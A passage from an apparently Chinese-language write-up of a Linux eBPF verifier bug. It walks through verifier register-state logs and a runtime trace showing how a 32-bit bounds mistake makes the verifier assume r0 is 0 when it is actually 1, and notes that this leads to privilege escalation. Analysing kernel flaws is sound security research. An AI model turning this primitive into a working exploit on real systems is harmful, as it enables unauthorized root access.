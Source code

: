 ```
17: R0_w=invP(id=0,umin_value=1,umax_value=9223372036854775807,var_off=(0x0; 0x7fffffffffffffff)) R2_w=invP2415919103 R5_w=invP(id=0) R7_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
17: (2d) if r0 &gt; r2 goto pc+1 // 此时对r2进行无符号比较
 R0_w=invP(id=0,umin_value=1,umax_value=2415919103,var_off=(0x0; 0xffffffff)) R2_w=invP2415919103 R5_w=invP(id=0) R7_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
18: R0_w=invP(id=0,umin_value=1,umax_value=2415919103,var_off=(0x0; 0xffffffff)) R2_w=invP2415919103 R5_w=invP(id=0) R7_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8_w=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
18: (95) exit // 得到r2的64位范围为[0x90000000,0x7fffffffffffffff]，32位范围为：[0x90000000, 0xffffffff]，这里检查就出现了错误：64位操作数的比较，32位的范围应该是不清楚的，但却得到范围[0x90000000, 0xffffffff]，只要传进来的数32位部分不在此范围，就可以触发漏洞
19: R0=invP(id=0,umin_value=2415919104,umax_value=9223372036854775807,var_off=(0x80000000; 0x7fffffff7fffffff),s32_min_value=-1879048192,s32_max_value=-1) R2=invP2415919103 R5=invP(id=0) R7=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
19: (bc) w0 = w0 // 对64位进行截断，只看32位部分，范围依旧是[0x90000000, 0xffffffff]
20: R0_w=invP(id=0,smin_value=0,umin_value=2415919104,umax_value=4294967295,var_off=(0x80000000; 0x7fffffff),s32_min_value=-1879048192,s32_max_value=-1) R2=invP2415919103 R5=invP(id=0) R7=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
20: (04) w0 += 1879048192 // w0+=0x70000000,得到范围为[0,0x6fffffff]
21: R0_w=invP(id=0,umax_value=1879048191,var_off=(0x0; 0x7fffffff)) R2=invP2415919103 R5=invP(id=0) R7=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
21: (77) r0 &gt;&gt;= 31 // 右移31位，取32位范围的符号位，因为认为范围是[0,0x6fffffff]，所以结果恒为0
22: R0_w=invP0 R2=invP2415919103 R5=invP(id=0) R7=map_value(id=0,off=0,ks=4,vs=256,imm=0) R8=map_value(id=0,off=0,ks=4,vs=256,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=256,imm=0) R10=fp0 fp-8=mmmm????
```

而实际运行过程：

```
12: (bf) r0 = r5 // 传进r5=0x180000000
13: (75) if r0 s&gt;= 0x1 goto pc+1 // r0 &gt;= 0x1, 跳转
14: (95) exit
15: (18) r2 = 0x8fffffff
17: (2d) if r0 &gt; r2 goto pc+1  // r0 &gt; 0x8fffffff，跳转
18: (95) exit
19: (bc) w0 = w0   // 截断，w0 = 0x80000000
20: (04) w0 += 1879048192  // w0+=0x70000000=0xf0000000
21: (77) r0 &gt;&gt;= 31    // r0 &gt;&gt;= 31 = 0xf0000000 &gt;&gt; 31 = 1
```

所以最终检查认为r0为0，而实际运行r0为1，参照eBPF的漏洞利用，可以完成提权，但现在eBPF模块对越界读写问题开始重新检查，会影响提权利用，在Pwn2Own 2021之后的利用得对这些检查进行绕过。

最新版Ubuntu 20.10 利用效果图：

[![](https://p0.ssl.qhimg.com/t01c586e2afc1e9ce1a.png)](https://p0.ssl.qhimg.com/t01c586e2afc1e9ce1a.png)


